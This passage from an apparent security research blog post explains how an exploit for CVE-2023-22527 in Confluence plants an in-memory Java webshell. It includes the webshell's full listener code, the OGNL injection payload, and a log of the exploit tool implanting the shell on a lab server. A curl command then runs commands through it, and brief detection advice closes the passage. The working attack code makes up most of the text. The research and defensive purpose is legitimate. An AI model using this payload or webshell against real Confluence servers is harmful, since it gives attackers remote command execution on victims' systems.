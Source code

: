 \[requestInitialized\](https://docs.oracle.com/javaee%2F7%2Fapi%2F%2F/javax/servlet/ServletRequestListener.html#requestInitialized-javax.servlet.ServletRequestEvent-) method. But it isn’t enough to implement \`ServletRequestListener\`: the class needs to register as an event listener. This is done in the class’s constructor:\\n\\n\`\`\`java\\npublic ABCDEFG(ServletContext context) {\\n try {\\n addListener(this, getFieldValue(getFieldValue(context,"context"), "context"));\\n } catch (Throwable e) {\\n }\\n}\\n\\nprivate void addListener(Object listener, Object standardContext) throws Exception {\\n Method addApplicationEventListenerMethod = standardContext.getClass().getDeclaredMethod("addApplicationEventListener", Object.class);\\n addApplicationEventListenerMethod.setAccessible(true);\\n addApplicationEventListenerMethod.invoke(standardContext, listener);\\n}\\n\`\`\`\\n\\nThe constructor expects the caller to provide a \[javax.servlet.ServletContext\](https://docs.oracle.com/javaee/6/api/javax/servlet/ServletContext.html), from which it extracts the underlying Tomcat \[StandardContext\](https://tomcat.apache.org/tomcat-8.0-doc/api/org/apache/catalina/core/StandardContext.html) and invokes \`addApplicationEventListener\` to register for events.\\n\\nThe \`ServletContext\` is sourced from the exploit’s OGNL expression. See the full payload below (with class bytes removed):\\n\\n>\`weZ=(@org.springframework.cglib.core.ReflectUtils@defineClass('AgzJWbvprnpCqo',\\n>@org.springframework.util.Base64Utils@decodeFromString('classbytes…'),\\n>@java.lang.Thread@currentThread().getContextClassLoader())).getDeclaredConstructors\[0\].newInstance(\\n>@org.apache.struts2.ServletActionContext@getRequest().getServletContext())&\\n>label=\\u0027+#request.get(\\u0027.KEY\_velocity.struts2.context\\u0027).internalGet(\\n>\\u0027ognl\\u0027).findValue(#parameters.weZ,{})+\\u0027\`\\n\\nInstead of using \`newInstance\` like we did in the previous exploit, we’ve switched to \`getDeclaredConstructors\[0\].newInstance\` to pass the \`ServletContext\` parameter. That parameter is generated by extracting the context from \`getRequest\`. In the payload above, that looks like the following: \`@org.apache.struts2.ServletActionContext@getRequest().getServletContext()\`.\\n\\nThe result is the class can then intercept any HTTP request to Confluence. \`ABCDEFG.class\` implements a very simple webshell that looks for a specific request parameter to intercept and execute (the exploit overwrites the parameter with a random value before implanting the webshell):\\n\\n\`\`\`java\\n@Override\\npublic void requestInitialized(ServletRequestEvent sret) {\\n try {\\n ServletRequest request = sret.getServletRequest();\\n String cmd = request.getParameter("AAAAAAAAAAAA");\\n if (cmd != null) {\\n ServletResponse response = (ServletResponse)getFieldValue(getFieldValue(request, "request"), "response");\\n PrintWriter printWriter = response.getWriter();\\n Process p = Runtime.getRuntime().exec(cmd);\\n OutputStream os = p.getOutputStream();\\n InputStream in = p.getInputStream();\\n DataInputStream dis = new DataInputStream(in);\\n String disr = dis.readLine();\\n while (disr != null) {\\n printWriter.write(disr);\\n disr = dis.readLine();\\n }\\n printWriter.flush();\\n printWriter.close();\\n }\\n }\\n catch (Exception e) {\\n }\\n}\\n\`\`\`\\n\\nThis is a pretty standard webshell, hardly different from the in-memory webshell described by the \[JSP Webshell Cookbook\](https://medium.com/@m01e/jsp-webshell-cookbook-part-3-f2a96f3b81ad). But, by virtue of only being in memory, it provides a strong foothold into the victim network. Consider the following example using our \[exploit\](https://github.com/vulncheck-oss/cve-2023-22527/tree/main/webshell) to insert the webshell.\\n\\n\`\`\`sh\\nalbinolobster@mournland:~/cve-2023-22527/webshell$ ./build/cve-2023-22527\_linux-arm64 -v -a -c -e -rhost 10.9.49.80 -ell\\nSUCCESS -fll SUCCESS\\ntime=2024-03-04T10:37:44.404-05:00 level=SUCCESS msg="Target verification succeeded!" host=10.9.49.80 port=8090 verified=true\\ntime=2024-03-04T10:37:44.582-05:00 level=SUCCESS msg="The target appears to be a vulnerable version!" host=10.9.49.80 port=8090 vulnerable=yes\\ntime=2024-03-04T10:37:44.892-05:00 level=SUCCESS msg="In memory webshell available using KUifNtvadjt param"\\ntime=2024-03-04T10:37:44.892-05:00 level=SUCCESS msg="Example usage: curl -kv http://10.9.49.80:8090/?KUifNtvadjt=whoami"\\n\`\`\`\\n\\nAs the exploit says, the webshell is now available at \`http://10.9.49.80:8090/?KUifNtvadjt=whoami\`. We can execute \`whoami\` using the following \`curl\` command (note the response).\\n\\n\`\`\`sh\\nalbinolobster@mournland:~/cve-2023-22527/webshell$ curl http://10.9.49.80:8090/?KUifNtvadjt=whoami\\nnt authority\\network service\\n\`\`\`\\n\\nThe webshell, still not stealthy in executing attacker-provided commands, uses \`Runtime.getRuntime().exec(cmd)\`. That is enough to avoid \`cmd.exe\`, though (and therefore the previous Sigma rule).\\n\\n!\[Tomcat spinning out whoami.exe in procom\](/blog/confluence-dreams-of-shells/confluence-procmon-whoami.png){:width="100%"}\\n\\nRemember, though, this is just a proof of concept. A real weaponized payload (e.g. Godzilla) won’t be using \`Runtime.getRuntime().exec(cmd)\`: they’ll do everything possible to implement their entire attack flow in Java. This is pretty tough for defenders because this doesn’t leave any good Confluence logs. Perhaps the best you can do is analyze the access log for weird patterns. Our webshell leaves a pretty obvious access log signature (random param followed by command):\\n\\n> \[04/Mar/2024:10:38:32 -0500\] - http-nio-8090-exec-1 10.9.49.81 GET /?KuifNtvadjt=whoami HTTP/1.1 500 73ms 39 - curl/7.68.0\\n\\n### Staying in Memory Using Nashorn\\n\\nEarlier, the blog mentioned that we approached this problem with Nashorn initially. (Un)fortunately, Confluence